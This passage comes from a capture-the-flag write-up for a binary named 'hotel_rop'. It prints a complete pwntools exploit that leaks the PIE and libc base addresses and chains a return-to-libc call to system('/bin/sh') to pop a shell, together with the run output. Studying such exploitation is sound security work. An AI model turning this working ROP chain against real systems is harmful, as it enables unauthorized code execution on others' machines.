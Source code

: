 Success! Let's proceed with the last part of our exploit.

### Stage 3: Return 2 LIBC System!

Now we have all the pieces we need to return to libc. This is super simple with PwnTools as well, we simply need to look for our '/bin/sh' string with `libc.search()` and call `rop.system(binsh)`.

```py
from pwn import *

p = process('./hotel_rop') # run the process
context.binary = elf = ELF('hotel_rop') # set elf and context
libc = elf.libc # set libc

with log.progress('Stage 1: Calculating PIE base'): # cool loading bar !
  p.recvuntil(b'main street ')
  mainleak = int(p.recvline().rstrip(b'\n'), 16)

  elf.address = mainleak - elf.sym.main # use elf to save find main address and save PIE base into elf.address
  log.success(f'PIE base @ {hex(elf.address)}')

with log.progress('Stage 2: leaking LIBC address and calculating LIBC base'):
  rop1 = ROP(elf) # set up rop chain
  rop1.puts(elf.got.puts) # print global offset table entry for puts
  rop1.main() # loop back to main

  p.sendline(flat({ 40: rop1.chain()})) # flat automatically packs your rop chain after specific offsets, i.e. 40 in this case by padding with cyclic
  p.recvuntil(b'often.\n')

  putsgotleak = u64(p.recvline().strip(b'\n').ljust(8, b'\x00'))
  libc.address = putsgotleak - libc.sym.puts

  log.success(f'libc base @ {hex(libc.address)}')

with log.progress('Stage 3: Popping a shell!'):
  binsh = next(libc.search(b'/bin/sh')) # search for /bin/sh string in libc

  rop2 = ROP([libc, elf]) # making a new rop chain with our LIBC!
  rop2.system(binsh) # popping a shell...
  p.sendline(flat({40: rop2.chain()}))
  log.success(f'Enjoy your shell!')

p.clean() # remove all other binary output before popping shell, basically look better LOL
p.interactive()
```

OUTPUT:

```
[x] Starting local process './hotel_rop'
[+] Starting local process './hotel_rop': pid 4784

[x] Stage 1: Calculating PIE base
[+] PIE base @ 0x5558d4611000
[+] Stage 1: Calculating PIE base: Done

[x] Stage 2: leaking LIBC address and calculating LIBC base
[+] libc base @ 0x7f4dca447000
[+] Stage 2: leaking LIBC address and calculating LIBC base: Done

[x] Stage 3: Popping a shell!
[+] Enjoy your shell!
[+] Stage 3: Popping a shell!: Done

```